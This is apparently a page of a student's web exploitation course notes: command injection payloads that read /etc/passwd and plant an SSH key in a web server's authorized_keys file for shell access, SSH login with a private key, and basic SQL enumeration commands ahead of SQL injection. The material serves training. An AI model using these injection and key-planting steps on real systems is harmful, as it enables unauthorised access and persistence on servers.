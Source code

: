 Run the following to chain/stack our arbitrary command
    ; cat /etc/passwd
SSH Key upload
    check /etc/passwd for interactive shell
    generate an ssh key. 
    ls -la (.ssh folder is hidden)
    ssh-keygen -t rsa -b 4096 -> hit enter x2
    file id_rsa (private key)
    file id_rsa.pub (public key)
    from webserver command injection -> ;mkdir /var/www/.ssh
    then -> ; ls -la /var/www (to check if you made the file)
    then -> ; echo "" > /var/www/.ssh/authorized_keys (paste your public key between quotes)
    to check -> ; cat /var/www/.ssh/authorized_keys
    then -> ssh to it. ssh www-data@10.50.30.162

**to ssh with someones private key**
    ssh -i id_rsa www-data@10.50.30.162 (to use a specific private key, replace 'id_rsa' with whatever you saved it as)
Web Exploitation Day 2
https://sec.cybbh.io/-/public/-/jobs/870086/artifacts/slides/05-sql-injection-slides.html

SQL
S tructured Q uery L anguage - ANSI Standard
Additional commands added by vendors
Relational

Standard Commands (SQL)
SELECT - Extracts data from a database
UNION - Used to COMBINE the result-set of TWO OR MORE SELECT STATEMENTS
USE - Selects the DB to use
UPDATE - Updates data in a database
DELETE - Deletes data from a database
INSERT INTO - Inserts new data into a database
CREATE DATABASE - Creates a new database
ALTER DATABASE - Modifies a database
CREATE TABLE - Creates a new table
ALTER TABLE - Modifies a table
DROP TABLE - Deletes a table
CREATE INDEX - Creates an index (search key)
DROP INDEX - Deletes an index

**default SQL databases** - to view -> mysql -> show databases; 
information_schema
mysql
performance_schema
session (not default)

*to see tables in SQL*
ex:
show TABLES FROM session
Tires
car

*to see columns in a table*
ex:
show columns from session.Tires;
show columns from session.car;
